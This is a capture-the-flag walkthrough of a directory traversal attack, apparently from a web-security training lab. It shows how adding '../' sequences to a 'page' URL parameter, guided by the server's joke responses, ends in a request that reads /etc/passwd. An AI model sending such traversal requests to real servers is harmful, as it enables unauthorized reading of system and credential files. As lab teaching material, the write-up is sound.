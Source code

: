 # 08-Dir Access Attack - Resources

## 🕵️ Step 1: Initial Curiosity
We notice a page parameter in the URL:
```
http://x.x.x.x/?page=home
```
We test with `../` to see if we can break out:
```
http://x.x.x.x/?page=../
```
Response: "Wtf?"

👀 This means our input is being processed!

## 🔎 Step 2: Checking if We Can Go Higher
Trying `../../`:
```
http://x.x.x.x/?page=../../
```
Response: "Wtf?" again.

✔ This confirms that ../ is working but isn’t quite enough.

## 🤔 Step 3: The First Sign of Resistance
Trying `../../../`:
```
http://x.x.x.x/?page=../../../
```
Response: "Wrong.."

📌 Now we know we’re making progress.

## 🚀 Step 4: Almost There
We keep pushing:
```
http://x.x.x.x/?page=../../../../
http://x.x.x.x/?page=../../../../../
```
Responses: "Nope.." "Almost."

🎯 We are VERY close!

## 🔥 Step 5: The Final Clue
Trying `../../../../../../`:
```
http://x.x.x.x/?page=../../../../../../
```
Response: "Still nope.."

Trying `../../../../../../../`:
```
http://x.x.x.x/?page=../../../../../../../
```
Response: "Nope.."

Trying `../../../../../../../../`:
```
http://x.x.x.x/?page=../../../../../../../../
```
Response: "You can DO it!!! :]"

💡 This is the breakthrough!

## 🎯 Step 6: The Jackpot - Accessing /etc/passwd
Now, we add `/etc/passwd`:
```
http://x.x.x.x/?page=../../../../../../../../etc/passwd
```
Response: Congratulaton!! The flag is : ...

🏆 We’ve done it! Directory Traversal success!

## Key Takeaways
✅ The troll messages were our guide—they weren’t blocking us, just misleading us.
✅ We didn’t use any automated tools, just logical testing.
✅ By recognizing pattern changes, we pinpointed the correct depth before even testing `/etc/passwd`.
